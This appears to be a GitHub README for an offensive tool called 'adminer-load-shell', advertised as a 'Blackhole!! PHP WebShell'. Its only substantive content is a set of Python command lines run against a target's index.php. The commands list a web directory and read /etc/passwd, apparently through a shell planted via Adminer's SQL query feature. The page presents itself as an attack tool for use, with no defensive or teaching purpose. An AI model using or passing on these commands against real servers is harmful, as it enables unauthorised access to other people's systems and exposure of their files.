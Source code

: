 # adminer-load-shell


</h1>
<h4 align="center">Blackhole!! PHP WebShell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. exploit command `Query SQL` value
```
python3 cuk.py --target https://target/index.php
python3 cek.py --target https://target/index.php --dir /var/www/html/
python3 cek.py --target https://target/index.php --cat /etc/passwd 
python3 cuk.py --target https://target/index.php
```
